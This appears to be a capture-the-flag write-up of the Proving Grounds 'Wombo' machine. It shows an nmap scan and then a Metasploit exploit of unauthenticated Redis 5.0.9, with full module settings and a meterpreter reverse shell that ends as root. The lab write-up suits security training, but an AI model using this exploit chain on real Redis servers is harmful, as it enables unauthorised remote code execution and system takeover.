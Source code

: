 ```yaml
---
layout: post
title: PG | Wombo
subtitle: Wombo is full of the freshest hipster tech around.
thumbnail-img: /assets/img/OffSec.png
---
```


# Nmap Scan Results

~~~shell
Starting Nmap 7.94 ( https://nmap.org ) at 2023-10-29 10:17 UTC
Nmap scan report for 192.168.182.69
Host is up (0.014s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT      STATE  SERVICE    VERSION
22/tcp    open   ssh        OpenSSH 7.4p1 Debian 10+deb9u7 (protocol 2.0)
| ssh-hostkey: 
|   2048 09:80:39:ef:3f:61:a8:d9:e6:fb:04:94:23:c9:ef:a8 (RSA)
|   256 83:f8:6f:50:7a:62:05:aa:15:44:10:f5:4a:c2:f5:a6 (ECDSA)
|_  256 1e:2b:13:30:5c:f1:31:15:b4:e8:f3:d2:c4:e8:05:b5 (ED25519)
53/tcp    closed domain
80/tcp    open   http       nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: Welcome to nginx!
6379/tcp  open   redis      Redis key-value store 5.0.9
8080/tcp  open   http-proxy
| http-robots.txt: 3 disallowed entries 
|_/admin/ /reset/ /compose
27017/tcp open   mongodb    MongoDB
| mongodb-info: 
|   MongoDB Build info
|     allocator = tcmalloc
|     ok = 1.0
|     storageEngines
|       1 = ephemeralForTest
|       2 = mmapv1
|       3 = wiredTiger
|       0 = devnull

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 177.71 seconds
~~~

## HTTP (TCP/80)

An Nginx web server is running on port 80

![Wombo](/assets/img/WomboPG(1).png)

I ran a gobuster sub-directory scan and nothing came back so moved onto the next port for enumeration

![Wombo](/assets/img/WomboPG(2).png)

## Redis (TCP/6379)

A Redis database runing version 5.0.9 is being hosted on port 6379, a quick vulnerability search using searchsploit revealed an Unauthenticated Code Execution ([Metasploit 47195.rb](https://www.exploit-db.com/exploits/47195)), there is also a python version of the same exploit [here](https://github.com/Ridter/redis-rce)

![Wombo](/assets/img/WomboPG(3).png)

I started by transferring the exploit from ExploitDB to my metasploit modules
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ sudo cp /usr/share/exploitdb/exploits/linux/remote/47195.rb /usr/share/metasploit-framework/modules/exploits/linux/redis
~~~
~~~shell
┌──(kali㉿kali)-[~/Desktop/Wombo]
└─$ msfconsole -m /usr/share/metasploit-framework/modules/

msf6 > loadpath /usr/share/metasploit-framework/modules/

msf6 > reload_all
~~~
I loaded the Metasploit module for the Redis exploit

![Wombo](/assets/img/WomboPG(4).png)

Set the configuration options to match the target and our attack machine for the shell
~~~shell
msf6 exploit(linux/redis/47195) > show options

Module options (exploit/linux/redis/47195):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   CUSTOM    true             yes       Whether compile payload file during exploiting
   PASSWORD  foobared         no        Redis password for authentication test
   RHOSTS    192.168.182.69   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     6379             yes       The target port (TCP)


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.45.185   yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addres
                                       ses.
   SRVPORT  6379             yes       The local port to listen on.


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.45.185   yes       The listen address (an interface may be specified)
   LPORT  8080             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.
~~~
Run the Exploit and we have a root shell!
~~~shell
msf6 exploit(linux/redis/47195) > run

[*] Started reverse TCP handler on 192.168.45.185:8080 
[*] 192.168.182.69:6379   - Compile redis module extension file
[+] 192.168.182.69:6379   - Payload generated successfully! 
[*] 192.168.182.69:6379   - Listening on 192.168.45.185:6379
[*] 192.168.182.69:6379   - Rogue server close...
[*] 192.168.182.69:6379   - Sending command to trigger payload.
[*] Sending stage (3045380 bytes) to 192.168.182.69
[*] Meterpreter session 2 opened (192.168.45.185:8080 -> 192.168.182.69:49978) at 2023-10-29 14:34:30 +0000
[!] 192.168.182.69:6379   - This exploit may require manual cleanup of './fhgevb.so' on the target

meterpreter > shell
Process 1250 created.
Channel 1 created.
whoami
root
~~~
